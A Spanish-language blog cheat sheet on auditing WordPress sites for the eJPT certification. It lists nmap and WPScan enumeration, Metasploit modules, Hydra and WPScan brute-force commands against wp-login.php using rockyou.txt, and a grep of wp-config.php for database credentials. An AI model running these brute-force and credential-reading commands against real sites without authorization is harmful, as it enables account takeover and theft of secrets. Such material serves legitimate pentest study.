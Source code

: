 ```yaml
---
layout: single
title: WordPress Pentesting
excerpt: "Hacking"
date: 2021-05-22
classes: wide
header:
  teaser: /assets/images/Wordpress/1.png
  teaser_home_page: true
  icon: /assets/images/Wordpress/1.png
categories:
  - Wordpress
  - eJPTv2
tags:
  - eJPTv2
  - WordPress
---
```


# Auditoria CMS WordPress

-----

##  **🕵️ Identificación de la versión de WordPress y sus componentes**

### **Reconocimiento de servicios en WordPress**

```bash
nmap -sV --script http-wordpress-enum <url> # Detección de la versión de WordPress y plugins.
nmap -sV --script "http-wordpress* and not http-wordpress-brute" <url> # Escaneo de vulnerabilidades en WordPress.
nmap -sV --script http-wordpress-users <url> # Enumeración de usuarios de WordPress.
nmap --script=http-wordpress-enum --script-args http-wordpress-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar el uso de WordPress.
nmap --script=http-vuln* -p 80,443 <url> # Detección de vulnerabilidades específicas en WordPress y sus plugins.
```
También podemos intentar enumerar plugins con la herramienta _curl_:

```ruby
curl -s -X GET "<ip_victima>" | grep -oP 'plugins/\K.*' | sort -u 
```

> Es importante verificar siempre ciertos directorios durante cualquier escaneo de WordPress.

### **✔️ Checklist de WordPress**

🎯 Para comprobar si existe un panel de inicio de sesión:

- url/wp-admin/login.php
- url/wp-admin/wp-login.php
- url/wp-login.php

🎯 Otros directorios clave a revisar en cualquier sitio web:

- url/robots.txt
- url/sitemap.xml
- url/CHANGELOG.txt

----

Si al acceder al servicio web notamos que no visualmente no carga correctamente, es posible que se esté utilizando *Virtual Hosting*. En este caso, deberemos añadir el dominio al que apunta realmente en nuestro archivo **/etc/hosts**. Para ello, agregamos la *IP de la web junto con el dominio correspondiente*, por ejemplo: `<ip_objetivo> blog.thm`.

---

###  **🛠️ Escaneo básico de WordPress con Metasploit**

```bash
use auxiliary/scanner/http/wordpress_version # Cargar el módulo.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```
### **🕵️ Enumeración de usuarios en WordPress**

```bash
use auxiliary/scanner/http/wordpress_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

### **🔑 Ataque de fuerza bruta con Metasploit**

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
exploit
```

  ### **🛠️ Otras herramientas para auditar WordPress**

### **🔹 WPScan**

**WPScan** es una herramienta especializada en la enumeración y auditoría de sitios basados en **WordPress**. Permite detectar vulnerabilidades, usuarios, plugins temas instalados y realizar ataques de fuerza bruta.

```bash
wpscan --url <url_wordpress> # Análisis básico de WordPress.
wpscan --url <url_wordpress> -e vp,u # Enumeración de plugins vulnerables y usuarios.
wpscan --url <url_wordpress> -e t # Enumeración de temas instalados.
```
> Para realizar un escaneo mas detallado deberemos añadir nuestro **token** de wpscan.

> 💡 Una buena práctica durante la auditoría de WordPress es revisar el código fuente de la página. Allí podemos encontrar rutas como `/uploads`, analizar si hay _directory listing_, identificar temas, plugins y posibles filtraciones de información (_information leakage_), vhosts, entre otros.

> 💡 También es recomendable examinar publicaciones de blogs u otras secciones del sitio web en busca de nombres de usuario que puedan ser utilizados en ataques de fuerza bruta.

----

### **🔑 Fuerza bruta en el panel de inicio de sesión de WordPress**

**Ataque de fuerza bruta con WPScan**

```bash
wpscan --url <url/wp-login.php> -U <username> -P /usr/share/wordlists/rockyou.txt # Uso de diccionario de contraseñas.
wpscan --url <url/wp-login.php> --passwords <ruta_diccionario.txt> --usernames <ruta_usuarios.txt> # Ataque con múltiples usuarios.
```

### **Ataque de fuerza bruta con Hydra**

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

### Ataque a múltiples usuarios:

```bash
hydra -L <lista_usuarios.txt> -P <diccionario.txt> <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

> 🏁 Con estos métodos, podemos identificar la versión de WordPress utilizada, detectar plugins y temas instalados, analizar directorios sensibles, localizar paneles de acceso y ejecutar ataques de fuerza bruta para intentar obtener acceso al sistema.

> 💡credenciales de la base de datos MySQL dentro de los archivos de configuración de WordPress:

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

<iframe width="560" height="315" src="https://www.youtube.com/watch?v=cI27_M5_a4E&t" 
title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; 
encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
